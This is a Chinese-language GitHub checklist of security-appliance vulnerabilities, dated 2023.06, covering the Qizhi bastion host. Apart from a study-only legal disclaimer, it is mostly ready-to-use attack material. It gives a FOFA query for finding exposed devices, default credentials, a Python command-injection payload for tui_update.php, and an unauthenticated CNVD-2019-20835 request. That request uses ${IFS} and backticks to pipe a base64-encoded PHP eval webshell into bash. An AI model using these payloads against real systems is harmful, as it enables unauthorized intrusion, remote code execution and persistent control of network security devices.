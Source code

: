 安全设备漏洞 Checklist# 安全设备漏洞 Checklist

更新时间：2023.06

##### **【免责声明】本项目所涉及的技术、思路和工具仅供学习，任何人不得将其用于非法用途和盈利，不得将其用于非授权渗透测试，否则后果自行承担，与本项目无关。使用本项目前请先阅读 [法律法规](https://github.com/Threekiii/Awesome-Laws)。**

&#x2705; 表示漏洞文档已收录 [Vulnerability-Wiki]( https://github.com/Threekiii/Vulnerability-Wiki) 漏洞库，仅收录2022/2023年部分安全设备，全部 iot 漏洞列表见 [README.md](https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/iot/README.md)。参考阅读：[ffffffff0x/SecDevice-Exploits](https://github.com/ffffffff0x/1earn/blob/master/1earn/Security/RedTeam/%E5%AE%89%E9%98%B2%E8%AE%BE%E5%A4%87/SecDevice-Exploits.md#%E9%BD%90%E6%B2%BB%E5%A0%A1%E5%9E%92%E6%9C%BA)

## 一、身份与访问控制

### 0x01 堡垒机

#### 齐智堡垒机

FOFA：

```
app="齐治科技-堡垒机" 
```

##### 默认口令

```
shterm/shterm
```

##### shterm命令执行 tui.update.php

```
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```

##### 前台命令执行 cluster_manage.php CNVD-2019-20835

访问以下路径，返回 ok：

```
http://10.20.10.11/listener/cluster_manage.php
```

写入webshell：

```
/var/www/shterm/resources/qrcode/lbj77.php  密码10086
```

```
https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}
```
